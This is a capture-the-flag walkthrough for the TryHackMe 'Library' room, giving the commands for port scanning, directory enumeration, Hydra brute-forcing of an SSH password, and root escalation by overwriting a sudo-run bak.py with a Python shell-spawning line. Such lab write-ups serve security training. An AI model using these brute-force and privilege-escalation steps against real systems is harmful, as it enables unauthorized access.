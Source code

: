 # T0fuHasuu
---

## **Library Walkthrough**
[**TryHackMe Room**](https://tryhackme.com/r/room/bsidesgtlibrary)  
[**Source**](https://vivekanandagn.medium.com/library-walkthrough-tryhackme-85875b66460c)

---

![Chill](https://64.media.tumblr.com/af4de0eb8060ecbc2ee08d476ac4b6cb/tumblr_ozwcxdvK3I1snbyiqo1_540.gif)  

---

## **Table of Contents**
1. [Connect VPN](#1-connect-vpn)
2. [Scan with Nmap](#2-scan-with-nmap)
3. [Find Sub-directory](#3-find-sub-directory)
4. [Exploiting the Website URL](#4-exploiting-the-website-url)
5. [Login as SSH](#5-login-as-ssh)
6. [Enter Root Privilege](#6-enter-root-privilege)

---

### **1. Connect VPN**
To connect to TryHackMe VPN:
```bash
sudo openvpn <TryHackmeVpn.file>
```

---

### **2. Scan with Nmap**
Use Nmap to scan the target:
```bash
nmap -sS -sV -A -O <IP>
```
- **Results:**
  - Port **22**: SSH
  - Port **80**: HTTP

---

### **3. Find Sub-directory**
Use `gobuster` to find directories:
```bash
gobuster dir -u http://<IP> -w <Path/Wordlist.txt>
```
- **Results:**
  - Check `robots.txt` by visiting:
    ```bash
    http://<IP>/robots.txt
    ```
  - You’ll find a clue about a **Rockyou** file.

---

### **4. Exploiting the Website URL**
Use `hydra` to brute-force SSH credentials:
```bash
hydra -l meliodas -P <Path/rockyou.txt> ssh://<IP>
```
- **Explanation:** Hydra is a brute-forcing tool. Here, we assume the username is `meliodas`.
- **Output:** You’ll get valid credentials (e.g., `meliodas:password`).

---

### **5. Login as SSH**
Login via SSH:
```bash
ssh meliodas@<IP>
```
- Enter the username and password from the previous step.
- List the files in the current directory:
    ```bash
    ls
    ```
- View the `user.txt` flag:
    ```bash
    cat user.txt
    ```
    **Example Flag:** `312472b87xt2426v5234v345fdqdqfd`

---

### **6. Enter Root Privilege**
Check current user’s privileges:
```bash
sudo -l
```
- If `bak.py` is writable:
  1. Backup and remove it:
     ```bash
     cp bak.py bak.py.org && rm bak.py
     ```
  2. Replace it with a shell-spawning script:
     ```bash
     echo 'import pty; pty.spawn("/bin/sh")' > bak.py
     ```
     **Find more of this injection at [Shell Spawn](https://github.com/T0fuHasuu/CheatSheet/blob/main/Tryhackme/Practice/Shell_Spawning/Shell_Spawning.md)**
     
  3. Execute the script:
     ```bash
     sudo python bak.py
     ```
  4. Confirm root access:
     ```bash
     id
     whoami
     ```
  5. Retrieve the `root.txt` flag:
     ```bash
     ls /root
     cat /root/root.txt
     ```
     **Example Flag:** `a54aerdfdf56fwacftdsvfa532`

---

![Byebye](https://i.pinimg.com/originals/8a/01/e6/8a01e6d0b00c45be638cdd016d78633f.gif)

---

# Catch You Next Time . . .

